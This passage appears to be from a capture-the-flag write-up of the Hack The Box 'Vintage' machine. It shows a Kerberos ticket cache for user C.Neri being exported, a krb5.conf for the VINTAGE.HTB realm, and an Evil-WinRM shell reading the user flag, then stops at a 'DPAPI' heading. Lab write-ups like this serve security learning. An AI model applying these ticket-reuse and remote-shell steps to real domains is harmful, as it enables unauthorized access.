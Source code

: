 and export it

```bash
➜  Vintage export KRB5CCNAME=C.Neri@10.10.11.45.ccache 
➜  Vintage klist
Ticket cache: FILE:C.Neri@10.10.11.45.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
04/24/2025 18:35:51  04/25/2025 04:35:51  krbtgt/VINTAGE.HTB@VINTAGE.HTB
        renew until 04/25/2025 18:35:51
```

now we have to configure /etc/krb5.conf

```bash
[libdefaults]
        default_realm = VINTAGE.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        VINTAGE.HTB = {
                kdc = vintage.htb
                admin_server = vintage.htb
                default_admin = vintage.htb
        }
[domain_realm]
        .vintage.htb = VINTAGE.HTB
```

anndd bommomomoomom!!!

```bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd C:\Users\C.Neri\Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> dir

    Directory: C:\Users\C.Neri\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/7/2024   1:17 PM           2312 Microsoft Edge.lnk
-ar---         4/24/2025  11:50 PM             34 user.txt

*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
2e9676ff1aa13cbf33071e5ddab2b9dc
```

## DPAPI
